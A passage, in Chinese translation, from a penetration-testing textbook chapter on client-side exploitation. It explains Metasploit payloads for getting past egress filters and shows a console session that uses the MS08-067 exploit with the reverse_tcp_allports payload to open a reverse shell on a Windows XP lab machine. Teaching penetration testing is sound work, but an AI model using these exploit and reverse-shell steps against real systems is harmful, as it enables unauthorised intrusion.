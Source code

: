 ## 第十章。客户端利用

到目前为止，我们研究的漏洞都是易于发现的，而且都出现在真实的项目中。在渗透测试中，发现监听端口上存在漏洞的服务、未更改的默认密码、配置错误的 Web 服务器等情况是很常见的。

然而，那些在安全姿态上投入大量时间和精力的客户可能不会受到这类漏洞的影响。他们可能已经安装了所有安全补丁；他们可能会定期审计密码，并删除任何容易猜测或破解的密码。他们可能会控制用户角色：普通用户可能没有在他们的工作站上拥有管理权限，任何安装的软件都会由安全人员调查和维护。因此，甚至可能没有太多服务可供攻击。

然而，尽管部署了最新和最先进的安全技术，并雇佣了破解安全团队，高知名度的公司（对攻击者可能有高回报）仍然遭受入侵。在本章中，我们将研究一些不需要直接网络访问的不同类型的攻击。我们将研究针对系统上的本地软件的攻击——这些软件不在监听端口上。

因为我们不会直接攻击计算机或监听端口，而且我们需要想出另一种方式来攻击公司边界内的设备，因此我们需要相应地选择我们的载荷。虽然对于直接暴露在互联网上或在本地网络上监听端口的系统，正常的绑定 shell 可能运行良好，但在这里，我们至少会受限于反向连接。

但首先让我们深入了解 Metasploit 载荷系统，并查看一些对您可能有用的其他载荷。

## 使用 Metasploit 载荷绕过过滤器

在之前的章节中，我们讨论了 Metasploit 载荷系统，包括单个与分阶段载荷以及绑定 shell 与反向 shell。我们还简要讨论了 Metasploit 的 Meterpreter 载荷（我们将在第十三章中深入讨论）。当您在模块上使用命令 `show payloads` 时，您可能会看到一些对您来说可能是新的载荷。在本节中，我们将看一些可以用来绕过您在渗透测试中遇到的过滤技术的载荷。

### 所有端口

我们的网络设置是这样的，我们的攻击和目标虚拟机在同一个网络上，没有防火墙或其他过滤器阻止通信。然而，在您的渗透测试职业生涯中，您可能会遇到各种过滤设置的客户。即使是反向连接也可能无法穿过过滤器并连接回您的攻击机器的任何端口。例如，客户网络可能不允许流量在端口 4444 上离开网络，这是 Metasploit *reverse_tcp* 载荷的默认端口。它可能只允许流量通过特定端口出去，比如 80 或 443 用于网络流量。

如果我们知道哪些端口可以通过过滤器，我们可以将`LPORT`选项设置为相关端口。Metasploit 的*reverse_tcp_allports*有效负载可以帮助我们找到可以连接的端口。顾名思义，这种有效负载通信方式会尝试所有端口，直到找到成功连接回 Metasploit 的端口。

让我们通过*windows/shell/reverse_tcp_allports*有效负载来测试这一功能，如示例 10-1 所示。我们正在使用 MS08-067 漏洞攻击 Windows XP。

示例 10-1. Windows/shell/reverse_tcp_allports 有效负载

```
msf  exploit(ms08_067_netapi) > **set payload windows/shell/reverse_tcp_allports**
payload => windows/shell/reverse_tcp_allports
msf  exploit(ms08_067_netapi) > **show options**
--*snip*--
Payload options (windows/shell/reverse_tcp_allports):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
   LHOST     192.168.20.9     yes       The listen address
  ❶LPORT     1                yes       The starting port number to connect back on
--*snip*--
msf  exploit(ms08_067_netapi) > **exploit**

[*] Started reverse handler on 192.168.20.9:1
--*snip*--
[*] Sending encoded stage (267 bytes) to 192.168.20.10
[*] Command shell session 5 opened (192.168.20.9:1 -> 192.168.20.10:1100) at 2015-05-14
22:13:20 -0400 ❷
```
